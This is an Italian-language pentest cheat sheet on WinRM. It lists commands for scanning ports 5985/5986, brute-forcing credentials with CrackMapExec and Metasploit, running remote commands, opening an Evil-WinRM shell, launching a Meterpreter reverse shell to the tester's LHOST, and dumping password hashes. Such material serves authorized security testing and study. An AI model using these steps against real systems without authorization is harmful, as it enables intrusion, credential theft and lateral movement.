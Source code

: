 # WinRM Enumeration & Exploitation

**WinRM (Windows Remote Management)** è un protocollo Microsoft che consente l’amministrazione remota di macchine Windows tramite PowerShell. Utilizza le porte `5985/TCP` (HTTP) e `5986/TCP` (HTTPS), e viene ampiamente usato in ambienti Active Directory per la gestione centralizzata dei sistemi. Quando mal configurato o esposto, può rappresentare un punto d’accesso critico.

---

## Fase 1 – Scansione del Servizio WinRM

La scansione standard di Nmap (`nmap -sS <IP>`) **non include automaticamente le porte 5985 e 5986**, quindi è fondamentale specificarle manualmente:

`nmap -p 5985,5986 -sV <IP>` ⟶ verifica se WinRM è attivo e restituisce banner, certificati e dettagli del server.  

Per usare uno script specifico:
`nmap -p 5985 --script http-winrm-info <IP>`

Con Metasploit:
`use auxiliary/scanner/winrm/winrm_auth_methods`  
`set RHOSTS <IP>`  
`run`  

Questo modulo consente di determinare i metodi di autenticazione supportati (NTLM, Basic, Kerberos).

---

## Fase 2 – Brute-force delle Credenziali

### CrackMapExec

CrackMapExec è uno strumento multiuso per testare l’autenticazione nei servizi Windows.

Per vedere le opzioni disponibili:
`crackmapexec -h`

Attacco bruteforce su WinRM:
`crackmapexec winrm <IP> -u <username> -p <lista_password>`  
Oppure per test singolo:
`crackmapexec winrm <IP> -u administrator -p Password123`

### Metasploit

In alternativa, puoi usare Metasploit:
`use auxiliary/scanner/winrm/winrm_login`  
`set RHOSTS <IP>`  
`set USER_FILE <lista_utenti>`  
`set PASS_FILE <lista_password>`  
`set PASSWORD anything`  
`run`

Il campo `PASSWORD` deve sempre essere valorizzato anche se stai usando un dizionario.

---

## Fase 3 – Esecuzione Remota di Comandi

### Con CrackMapExec:
`crackmapexec winrm <IP> -u <username> -p <password> -x "whoami"`  
Permette di eseguire comandi come `whoami`, `hostname`, `systeminfo`, ecc.

### Con Metasploit:
`use auxiliary/scanner/winrm/winrm_cmd`  
`set RHOSTS <IP>`  
`set USERNAME <utente>`  
`set PASSWORD <password>`  
`set CMD "whoami"`  
`run`

---

## Fase 4 – Accesso Interattivo

### Evil-WinRM

Strumento Ruby per accedere a una shell PowerShell remota:
`evil-winrm -u <username> -p '<password>' -i <IP>`

Funzionalità disponibili:
- Shell interattiva
- Upload e download file
- Esecuzione script
- Post-exploitation tools

---

## Fase 5 – Exploit con Metasploit

Per ottenere una shell Meterpreter:
`use exploit/windows/winrm/winrm_script_exec`  
`set RHOSTS <IP>`  
`set LHOST <tuo_IP>`  
`set LPORT <Port>`  
`set USERNAME <utente>`  
`set PASSWORD <password>`  
`set FORCE_VBS true`  
`run`

L’opzione `FORCE_VBS` forza l’esecuzione tramite VBScript e aumenta la compatibilità su sistemi restrittivi.

---

## Fase 6 – Post-Sfruttamento

Dopo aver ottenuto una shell Meterpreter:
- `getuid` ⟶ mostra l’identità dell’utente corrente
- `getprivs` ⟶ elenca i privilegi
- `hashdump` ⟶ estrae hash delle password (se permesso)
- `sysinfo` ⟶ mostra dettagli del sistema
- `shell` ⟶ apre un prompt interattivo

---

## Considerazioni Finali

WinRM è uno dei metodi più potenti per ottenere accesso remoto completo e invisibile a sistemi Windows. Se trovi le porte 5985 o 5986 aperte e riesci a ottenere credenziali valide, puoi:
- Ottenere shell privilegiate
- Effettuare lateral movement
- Caricare/eseguire payload e script
- Usare strumenti avanzati senza passare da exploit classici

Per questo motivo, ogni istanza di WinRM rilevata durante un penetration test deve essere analizzata con estrema attenzione.
